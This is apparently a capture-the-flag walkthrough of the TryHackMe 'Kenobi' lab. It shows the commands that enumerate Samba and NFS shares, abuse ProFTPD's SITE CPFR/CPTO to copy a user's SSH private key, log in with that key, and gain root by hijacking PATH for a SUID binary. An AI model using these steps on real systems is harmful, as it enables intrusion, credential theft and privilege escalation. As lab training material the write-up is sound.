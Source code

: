 # [Kenobi](https://tryhackme.com/r/room/kenobi)

Walkthrough on exploiting a Linux machine. Enumerate Samba for shares, manipulate a vulnerable version of proftpd and escalate your privileges with path variable manipulation. 

Set up environment IP as IP_Machine

```
export IP=10.10.184.151
```

![IP](./images/IP.png)

## Task 1 - Deploy the vulnerable machine

* Scan the machine with nmap, how many ports are open?
	
	```
	nmap -sV $IP | tee nmap-scan.txt
	```

	File scan resulted [here](./files/nmap-scan.txt)

	![task1-nmap](./images/task1-nmap.png)

## Task 2 - Enumerating Samba for shares

* Using the nmap command below, how many shares have been found?
	
	```
	nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse $IP
	```  

	![task2-samba](./images/task2-samba.png)

* Once you're connected, list the files on the share. What is the file can you see?
	
	```
	smbclient //$IP/anonymous
	```

	![task2-smbclient](./images/task2-smbclient.png)

	Get the file [here](./files/log.txt)

	![task2-smbget](./images/task2-smbget.png)

* In our case, port 111 is access to a network file system. Lets use nmap to enumerate this. What mount can we see?
	
	```
	sudo nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount $IP
	```  

	![task2-nfs](./images/task2-nfs.png)

## Task 3 - Gain initial access with ProFtpd

Lets get the version of ProFtpd. Use netcat to connect to the machine on the FTP port.

* What is the version?  
	
	```
	nc 10.10.65.169 21
	```

	![task3-version](./images/task3-version.png)

* How many exploits are there for the ProFTPd running?
	
	```
	searchsploit ProFtpd 1.3.5
	```

	![task3-sploit](./images/task3-sploit.png)


* We know that the FTP service is running as the Kenobi user (from the file on the share) and an ssh key is generated for that user. We're now going to copy Kenobi's private key using SITE CPFR and SITE CPTO commands.We knew that the /var directory was a mount we could see (task 2, question 4). So we've now moved Kenobi's private key to the /var/tmp directory.

	```
	SITE CPFR /home/kenobi/.ssh/id_rsa  
	SITE CPTO /var/tmp/id_rsa
	```  
	
	![task3-copy](./images/task3-copy.png)

* What is Kenobi's user flag (/home/kenobi/user.txt)?

	* Lets mount the /var/tmp directory to our machine
	
		```
		mkdir /tmp/KenobiNFS
		sudo mount $IP:/var /tmp/KenobiNFS
		ls -la /tmp/KenobiNFS
		```
		
		![task3-kenobiNFS](./images/task3-kenobiNFS.png)

	*  We now have a network mount on our deployed machine! We can go to /var/tmp and get the private key then login to Kenobi's account.
	
		```
		cp /tmp/KenobiNFS/tmp/id_rsa .
		sudo chmod 600 id_rsa
		ssh -i id_rsa kenobi@$IP
		```
		
		Get the file [here](./files/id_rsa)

		![task3-id_rsa](./images/task3-id_rsa.png)

	* What is Kenobi's user flag (/home/kenobi/user.txt)?
		
		```
		cat /home/kenobi/user.txt
		```

		![task3-usertext](./images/task3-usertext.png)

## Task 4 - Privilege Escalation with Path Variable Manipulation

* What file looks particularly out of the ordinary?
	
	```
	find / -type f -perm -4000 -ls 2>/dev/null
	```

	![task4-SUID](./images/task4-SUID.png)

* Run the binary, how many options appear?
	
	```
	/usr/bin/menu
	```

	![task4-binary](./images/task4-binary.png)

* Strings is a command on Linux that looks for human readable strings on a binary. 
	
	```
	strings /usr/bin/menu
	```

	![task4-strings](./images/task4-strings.png)

* As this file runs as the root users privileges, we can manipulate our path gain a root shell.

	```
	echo /bin/sh > curl
	chmod 777 curl
	export PATH=/tmp:$PATH
	/usr/bin/menu
	```

	![task4-privilege](./images/task4-privilege.png)

We copied the /bin/sh shell, called it curl, gave it the correct permissions and then put its location in our path. This meant that when the /usr/bin/menu binary was run, its using our path variable to find the "curl" binary.. Which is actually a version of /usr/sh, as well as this file being run as root it runs our shell as root!

* What is the root flag (/root/root.txt)?
	
	![task4-rootTXT](./images/task4-rootTXT.png)

